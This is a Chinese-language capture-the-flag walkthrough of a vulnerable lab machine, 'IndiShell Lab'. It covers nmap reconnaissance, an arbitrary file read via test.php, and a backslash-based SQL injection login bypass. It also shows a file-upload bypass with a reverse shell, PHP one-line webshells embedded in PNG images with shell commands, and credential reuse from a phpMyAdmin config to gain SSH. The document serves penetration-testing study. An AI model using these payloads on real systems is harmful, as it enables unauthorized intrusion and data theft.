# 靶机描述
 这是一台标榜难度为简单的靶机。使用 PHP+Apache+MySQL 搭建。作者需要我们通过 web 程序的漏洞来逃逸，然后提权到 root 用户。


# 信息收集

## nmap 脚本扫描

1. 主机发现
目标主机的 ip 地址是192.168.2.44 。

2. 端口扫描
```text
# Nmap 7.98 scan initiated Sun Jul 26 05:46:40 2026 as: /usr/lib/nmap/nmap --min-rate=10000 -p- -oA nmapscan/TCPS 192.168.2.44
Nmap scan report for 192.168.2.44
Host is up (0.00082s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 00:0C:29:2C:73:2A (VMware)

# Nmap done at Sun Jul 26 05:46:42 2026 -- 1 IP address (1 host up) scanned in 1.60 seconds
```

发现目标主机开放 22， 80 端口。

3. 详细扫描

```text
# Nmap 7.98 scan initiated Sun Jul 26 06:19:48 2026 as: /usr/lib/nmap/nmap -sT -sV -O -sC -p22,80 -oA nmapscan/details 192.168.2.44
Nmap scan report for 192.168.2.44
Host is up (0.00088s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 fa:cf:a2:52:c4:fa:f5:75:a7:e2:bd:60:83:3e:7b:de (DSA)
|   2048 88:31:0c:78:98:80:ef:33:fa:26:22:ed:d0:9b:ba:f8 (RSA)
|_  256 0e:5e:33:03:50:c9:1e:b3:e7:51:39:a4:4a:10:64:ca (ECDSA)
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: --==[[IndiShell Lab]]==--
MAC Address: 00:0C:29:2C:73:2A (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.14, Linux 3.8 - 3.16
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jul 26 06:19:56 2026 -- 1 IP address (1 host up) scanned in 8.54 seconds
```

目标主机可能是一台 Ubuntu 系统的 linux 主机，目前扫描出主机模糊的内核版本为 3.x 。
网站运行在 apache 服务器上。

4. 漏洞脚本扫描

```text
# Nmap 7.98 scan initiated Sun Jul 26 06:20:35 2026 as: /usr/lib/nmap/nmap --script=vuln -p22,80 -oA nmapscan/vulns 192.168.2.44
Nmap scan report for 192.168.2.44
Host is up (0.00022s latency).

PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-csrf: Couldn't find any CSRF vulnerabilities.
| http-internal-ip-disclosure: 
|_  Internal IP Leaked: 127.0.1.1
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-enum: 
|   /test.php: Test page
|_  /images/: Potentially interesting directory w/ listing on 'apache/2.2.22 (ubuntu)'
MAC Address: 00:0C:29:2C:73:2A (VMware)

# Nmap done at Sun Jul 26 06:21:07 2026 -- 1 IP address (1 host up) scanned in 31.49 seconds

```
 漏洞脚本扫描标注 80 端口暴露了一个文件 test.php 以及存放图片的 /images 文件夹。

## WEB 页面信息收集

1. test.php 任意文件读取漏洞


要求我们提交的请求中 file 参数不为空。网站比较常用的两种方法是 GET 和 POST 方法。经过尝试，网站后端接受 POST 方式提交的 file 参数。


通过这个参数，我们可以查看网站后端许多资源文件的源码。

2. IMAGES 目录

images 目录下存放了一些图片文件。暂时不清楚用途。


# WEB 渗透

## WEB 页面资源路径爆破


我们可以通过任意文件读取漏洞查看这些路径文件的源码，从而在 WEB 页面中挖漏洞。

## 根目录界面 SQL 注入

我们访问 80 端口，页面提示我们说，“展示我们的 SQL 注入技巧”。我们结合文件读取漏洞来分析。


代码揭示了，后端会把我们输入的账号密码进行检查过滤。把输入中的单引号给替换成空。源码中的 $run 变量 展示了一个字符型注入。我们需要通过闭合单引号来逃逸。从而拼接我们自己的语句。笔者这边钻牛角尖了，最后是通过红笔师傅视频答出来的。其实这类问题应该通过字符型注入的原理出发。常见的思路是通过单引号闭合变量，然后拼接一个逻辑，使得语句的执行结果为正确。但是目标禁止输入 _'_ 。就没法通过输入的方式来闭合。但是，这边提供了两个变量给我们进行注入。我们可以借助后面一个变量的前面的单引号进行闭合，然后凭借我们的注入逻辑，实现登录绕过。

```sql
Password: \

Username: or 1=1 #\
```

反斜杠可以把单引号进行转义。这里反斜杠使得前面的变量 $pass 后的单引号失去闭合作用。从而实现逃逸。

```sql
闭合后的 sql 语句

select * from auth where pass=  '\' and uname='  or 1=1 #\'

 # 注意这里的pass 变量匹配的是 \' and uname= , 然后和 or 逻辑链接，因为 1=1 恒为正，所以这个语句执行结果变成把 auth 这张表的内容全部查出来。
```

## panel.php 文件上传

在panel.php界面中，点击复选框中的 add 选项。出现上传功能界面。


查看源码



这里查阅 php 手册后发现pathinfo函数会根据文件名和指定flags 类型返回相应的字符串，这里PATHINFO_EXITENSION 是文件后缀的意思。所以这个函数会返回上传文件的后缀名。下面通过finfo 类的接口调用 file 函数返回文件内容类型。finfo 类是通过查看图片的 "魔数" 来判断是不是图片。比如 “PNG” 这块就是 2.png 的魔数。



总的来说， 后端检查文件上传不仅会看后缀字符是否匹配，还会看提交的内容是不是图片。后端校验逻辑中，没有把上传的图片进行压缩或者渲染。我们可以直接添加一个 GIF 的魔数头(GIF89a)，并且在后面添加 WEBSHELL 代码，更改后缀为 .php。

笔者使用的是 kali 自带的 webshells 工具 php-reverse-shell.php。上传大马获得shell。



这里更推荐使用图片马上传。

## 图片马配合解析漏洞获得 shell 会话

_图片马尽量选择占用磁盘体积小的照片。太大了，很可能导致执行不成功。_

1. 图片尾部插入一句话
	我们可以添加一句话木马到图片的后面。
	添加到图片末尾
	```shell
	convert -size 10x10 xc:white tiny2.png
	// 生成一个标准的png文件
	echo "<?php system(\$_GET['retro']);?>" >> tiny2.png
	// 使用 \ 转义美元符 避免 zsh 解析$_GET['retro']
	xxd tiny2.png
	// 查看图片马是否写入成功
	```

	

	测试结果

	
	
	
	如果连接参数的结果返回失败，那么考虑是否忘记进行 url 编码。


2. 图片内部辅助块插入一句话

	 同样使用 convert 生成一张标准的 png 图片。
	 
	 ```shell
	 convert -size 10x10 xc:white tiny1.png
	 
	 exiftool -comment="<?php system(\$_GET['retro']);?>" tiny1.png
	 
	 exiftool tiny1.png
	 ```

	一句话木马插入到comment中。
	

	

	

	 和第一种方式略有区别，结果回显位置不同。


3. 两种方式的异同
	 相同的地方在在于都只能在服务器不二次处理图片的情况下进行。如果服务器接收到图片后进行压缩编码。那么这两种暴力的方法都会失效。比如 _PHP-GD imagepng ()_ ，这时可以考虑 _IDAT_ 注入。

	不同的地方在于，方法 2 是写入 png 中的 tEXt 区块。方法1 是写入 png 的 IEND 标记后面，图片解析到IEND 就结束了。所以方法 1 执行的结果会被放到图片数据的最后面。而方法2 会把执行的结果放到数据中。


# 权限提升

在查找的过程中，发现网站目录下，有个 phpmy 的文件夹。推测网站可能运行 phpmyadmin 这样的软件。我们使用 GitHub 上面的 [Auto_wordlist](https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/file_inclusion_linux.txt) 这个库, 找到phpMyAdmin 的配置文件为 config.inc.php。使用文件读取漏洞读取敏感信息。



我们现在猜想这个 phpMyAdmin 的登录密码是不是就是ssh的登录密码。结果证明确实是这样！



至此，这台靶机渗透结束。

# 总结

这台靶机聚焦考察 WEB 的几个经典漏洞。笔者最大的感受是，“看上去很简单，但实际操作起来没想象的那么容易”。还是要对漏洞原理深刻理解，不能只记套路。